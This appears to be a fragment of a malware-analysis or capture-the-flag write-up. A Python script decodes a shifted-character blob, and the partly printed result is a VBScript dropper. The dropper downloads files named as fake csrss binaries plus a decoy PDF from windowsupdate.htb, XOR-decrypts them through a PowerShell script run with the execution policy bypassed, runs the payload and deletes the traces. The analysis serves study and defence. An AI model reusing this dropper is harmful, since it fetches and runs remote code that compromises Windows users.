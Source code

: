 ```
obfuscated = """Stxmsr$I|tpmgmxHmq$sfnWlipp0$sfnJWS0$sfnLXXTHmq$wxvYVP50$wxvYVP60$wxvYVP70$wxvWls{jmpiYVPHmq$wxvHs{rpsehTexl50$wxvHs{rpsehTexl60$wxvHs{rpsehTexl70$wxvWls{jmpiTexlHmq$wxvI|igyxefpiTexl0$wxvTs{ivWlippWgvmtxwxvYVP5$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i&wxvYVP6$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2hpp&wxvYVP7$A$&lxxt>33{mrhs{wythexi2lxf3gwvww2i|i2gsrjmk&wxvWls{jmpiYVP$A$&lxxt>33{mrhs{wythexi2lxf3{erxih2thj&wxvHs{rpsehTexl5$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&wxvHs{rpsehTexl6$A$&G>`Ywivw`Tyfpmg`gwvww2hpp&wxvHs{rpsehTexl7$A$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&wxvWls{jmpiTexl$A$&G>`Ywivw`Tyfpmg`{erxih2thj&wxvI|igyxefpiTexl$A$&G>`Ywivw`Tyfpmg`gwvww2i|i&Wix$sfnWlipp$A$GviexiSfnigx,&[Wgvmtx2Wlipp&-Wix$sfnJWS$A$GviexiSfnigx,&Wgvmtxmrk2JmpiW}wxiqSfnigx&-Wix$sfnLXXT$A$GviexiSfnigx,&QW\QP62\QPLXXT&-Mj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl5-$Xlir$$$$Hs{rpsehJmpi$wxvYVP50$wxvHs{rpsehTexl5Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl6-$Xlir$$$$Hs{rpsehJmpi$wxvYVP60$wxvHs{rpsehTexl6Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvHs{rpsehTexl7-$Xlir$$$$Hs{rpsehJmpi$wxvYVP70$wxvHs{rpsehTexl7Irh$MjMj$Rsx$sfnJWS2JmpiI|mwxw,wxvWls{jmpiTexl-$Xlir$$$$Hs{rpsehJmpi$wxvWls{jmpiYVP0$wxvWls{jmpiTexlIrh$MjwxvTs{ivWlippWgvmtx$A$c&teveq$,&$*$zfGvPj$*$c&$$$$_wxvmrka(JmpiTexl0&$*$zfGvPj$*$c&$$$$_wxvmrka(Oi}Texl&$*$zfGvPj$*$c&-&$*$zfGvPj$*$c&(oi}$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(Oi}Texl-&$*$zfGvPj$*$c&(jmpiGsrxirx$A$_W}wxiq2MS2Jmpia>>ViehEppF}xiw,(JmpiTexl-&$*$zfGvPj$*$c&(oi}Pirkxl$A$(oi}2Pirkxl&$*$zfGvPj$*$c&jsv$,(m$A$4?$(m$1px$(jmpiGsrxirx2Pirkxl?$(m//-$&$*$zfGvPj$*$c&$$$$(jmpiGsrxirx_(ma$A$(jmpiGsrxirx_(ma$1f|sv$(oi}_(m$)$(oi}Pirkxla&$*$zfGvPj$*$c&&$*$zfGvPj$*$c&_W}wxiq2MS2Jmpia>>[vmxiEppF}xiw,(JmpiTexl0$(jmpiGsrxirx-&$*$zfGvPjHmq$sfnJmpiSr$Ivvsv$Viwyqi$Ri|xWix$sfnJmpi$A$sfnJWS2GviexiXi|xJmpi,&G>`Ywivw`Tyfpmg`xiqt2tw5&0$Xvyi-Mj$Ivv2Ryqfiv$@B$4$Xlir$$$$[Wgvmtx2Igls$&Ivvsv$gviexmrk$Ts{ivWlipp$wgvmtx$jmpi>$&$*$Ivv2Hiwgvmtxmsr$$$$[Wgvmtx2UymxIrh$MjsfnJmpi2[vmxiPmri$wxvTs{ivWlippWgvmtxsfnJmpi2GpswiHmq$evvJmpiTexlwevvJmpiTexlw$A$Evve},wxvHs{rpsehTexl50$wxvHs{rpsehTexl70$wxvWls{jmpiTexl-Hmq$mJsv$m$A$4$Xs$YFsyrh,evvJmpiTexlw-$$$$Hmq$mrxVixyvrGshi$$$$mrxVixyvrGshi$A$sfnWlipp2Vyr,&ts{ivwlipp$1I|igyxmsrTspmg}$F}teww$1Jmpi$G>`Ywivw`Tyfpmg`xiqt2tw5$1JmpiTexl$&$*$Glv,78-$*$evvJmpiTexlw,m-$*$Glv,78-$*$&$1Oi}Texl$&$*$Glv,78-$*$wxvHs{rpsehTexl6$*$Glv,78-0$40$Xvyi-$$$$$$$$Mj$mrxVixyvrGshi$@B$4$Xlir$$$$$$$$[Wgvmtx2Igls$&Ts{ivWlipp$wgvmtx$i|igyxmsr$jempih$jsv$&$*$evvJmpiTexlw,m-$*$&${mxl$i|mx$gshi>$&$*$mrxVixyvrGshi$$$$Irh$MjRi|xsfnWlipp2Vyr$wxvI|igyxefpiTexl0$50$XvyisfnWlipp2Vyr$wxvWls{jmpiTexl0$50$XvyisfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2hpp&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`gwvww2i|i2gsrjmk&sfnJWS2HipixiJmpi$&G>`Ywivw`Tyfpmg`xiqt2tw5&Wyf$Hs{rpsehJmpi,yvp0$texl-$$$$Hmq$sfnWxvieq$$$$Wix$sfnWxvieq$A$GviexiSfnigx,&EHSHF2Wxvieq&-$$$$sfnLXXT2Stir$&KIX&0$yvp0$Jepwi$$$$sfnLXXT2Wirh$$$$Mj$sfnLXXT2Wxexyw$A$644$Xlir$$$$$$$$sfnWxvieq2Stir$$$$$$$$sfnWxvieq2X}ti$A$5$$$$$$$$sfnWxvieq2[vmxi$sfnLXXT2ViwtsrwiFsh}$$$$$$$$sfnWxvieq2WeziXsJmpi$texl0$6$$$$$$$$sfnWxvieq2Gpswi$$$$Irh$Mj$$$$Wix$sfnWxvieq$A$RsxlmrkIrh$Wyf"""
result = ""

for i in range(1, len(obfuscated) + 1):
    char = obfuscated[i - 1]  # Extract character at position i (1-indexed)
    adjusted_char = chr(ord(char) - 5 + 1)  # Apply transformation
    result += adjusted_char

print(result)
```

```
# Option Explicit
# Dim objShell, objFSO, objHTTP
# Dim strURL1, strURL2, strURL3, strShowfileURL
# Dim strDownloadPath1, strDownloadPath2, strDownloadPath3, strShowfilePath
# Dim strExecutablePath, strPowerShellScript
# strURL1 = "http://windowsupdate.htb/csrss.exe"
# strURL2 = "http://windowsupdate.htb/csrss.dll"
# strURL3 = "http://windowsupdate.htb/csrss.exe.config"
# strShowfileURL = "http://windowsupdate.htb/wanted.pdf"
# strDownloadPath1 = "C:\Users\Public\csrss.exe"
# strDownloadPath2 = "C:\Users\Public\csrss.dll"
# strDownloadPath3 = "C:\Users\Public\csrss.exe.config"
# strShowfilePath = "C:\Users\Public\wanted.pdf"
# strExecutablePath = "C:\Users\Public\csrss.exe"

# Set objShell = CreateObject("WScript.Shell")
# Set objFSO = CreateObject("Scripting.FileSystemObject")
# Set objHTTP = CreateObject("MSXML2.XMLHTTP")

# If Not objFSO.FileExists(strDownloadPath1) Then
#     DownloadFile strURL1, strDownloadPath1
```